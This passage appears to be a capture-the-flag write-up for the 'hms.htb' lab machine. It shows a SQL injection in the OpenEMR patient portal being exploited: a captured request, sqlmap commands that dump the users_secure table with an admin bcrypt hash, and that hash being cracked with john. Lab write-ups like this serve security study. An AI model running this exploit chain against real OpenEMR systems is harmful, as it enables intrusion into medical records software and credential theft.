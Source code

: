## Exploitation

The OpenEMR is vulnerable to SQL injection, after some registration steps as shown in <https://www.youtube.com/watch?v=DJSQ8Pk_7hc>.

1. Go to http://hms.htb/portal/add_edit_event_user.php
2. Click register
3. Register account admin
4. The registration will fail, wait for the popup
5. Go to http://hms.htb/portal/add_edit_event_user.php?eid=1' and send the request through burp

```bash
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=deqfe1itgn2dcp33ba79lb1eed; PHPSESSID=eg5i1t7p2m4uvoogp2v9rmos1i
Upgrade-Insecure-Requests: 1
```

6. Save the request to file and feed the request to SQLmap

```bash
$ sqlmap -r req.txt --threads=10 --dbs
$ sqlmap-r req.txt --threads=10 -D openemr --tables
$ sqlmap-r req.txt --threads=10 -D openemr -T users_secure --dump
...
+------+--------------------------------+---------------+--------------------------------------------------------------+
| id   | salt                           | username      | password                                                     |
+------+--------------------------------+---------------+--------------------------------------------------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. |
+------+--------------------------------+---------------+--------------------------------------------------------------+
```

A password hash for user `openemr_admin`. Save it to a file and feed it to john

```bash
$ cat hash.txt 
$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.

$ sudo john -w=/home/kali/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:01 DONE (2020-06-21 07:39) 0.9523g/s 805.7p/s 805.7c/s 805.7C/s tristan..princesita
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
